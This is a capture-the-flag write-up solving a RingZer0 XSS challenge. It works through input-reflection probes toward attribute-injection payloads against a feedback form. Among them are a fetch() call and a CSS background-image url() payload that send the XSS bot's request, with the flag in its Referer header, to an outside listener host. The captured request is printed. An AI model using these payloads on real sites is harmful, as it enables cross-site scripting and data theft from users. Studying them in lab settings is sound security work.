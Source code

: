 # XSS Challenge 3 Solutions

The first payload I tried with was
```
abcd"<'
```
and viewing the page source for the response is the following:
```html
<!DOCTYPE html>
<html>
	<head>
		<title>RingZer0 Team Online CTF Challenge</title>
		<link rel="stylesheet" type="text/css" href="/css/main.css">
	</head>
	<body>
		<header></header>
		<div class="padding"><img src="/imgs/logo.png" /></div>
		<section>
			<br />
      <br />
      Your opinion matters to us again and again! Write some feedback.<br /><br />
      <form action="" method="post">
        Comment<br />
        <textarea name="comment"></textarea><br />
        <input type="submit" value="submit" />
      </form>
      <br /><input type="text" value="abcd"" /><br /><br />		
		</section>
		<div class="pre_footer"></div>
    <footer>RingZer0 Team 2022</footer>
	</body>
</html>
```

Essentially, this is how my payload was reflected in the document:
```html
<br /><input type="text" value="abcd"" /><br /><br />		
```

Looks like the `<` and `'` were sanitized out, but the double quotation mark was neither sanitized nor escaped.

I also tried the following payload 
```
abcd`
```
and it was reflected like
```
<br /><input type="text" value="abcd`" /><br /><br />	
```
So the `` ` `` character was also neither sanitized nor escaped.

Time to craft some XSS payloads. The first one I tried was:
```
abcd" autofocus onfocus="alert(1)
```
The `alert()` call got executed on my browser and the payload was reflected on the document like
```html
<br /><input type="text" value="abcd" autofocus onfocus="alert(1)" /><br /><br />	
```
The second payload I tried was:

```
abcd" autofocus onfocus="fetch(`http://mywebhooklistener.com`)
```

I got a request from my own browser, but nothing from the XSS bot.
Similar to a previous challenge, this is probably because the XSS bot doesn't support backticks or the Fetch API.

As a result, the same problem applies to any JS callback tricks I might use here, so I needed to start looking at other avenues. I was thinking about non-js things I can inject, and injecting CSS through the `style` attribute came to mind. As I was reading [this page](https://www.geeksforgeeks.org/html-style-attribute/) about the `style` attribute, I was reminded of the CSS `url()` function ([docs here](https://www.geeksforgeeks.org/css-url-function/)). After reading the docs, I used the following payload: 

```
" style="background-image:url(http://mywebhooklistener.com);
```
and I received the following request from the XSS Bot:
```
GET / HTTP/1.1
Referer: http://127.0.0.1/xss3/bot_endpoint_BD5XiO84TF.php?FLAG-[CENSORED]
User-Agent: Mozilla/5.0 (Unknown; Linux x86_64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: mywebhooklistener.com
```
Flag received! :) 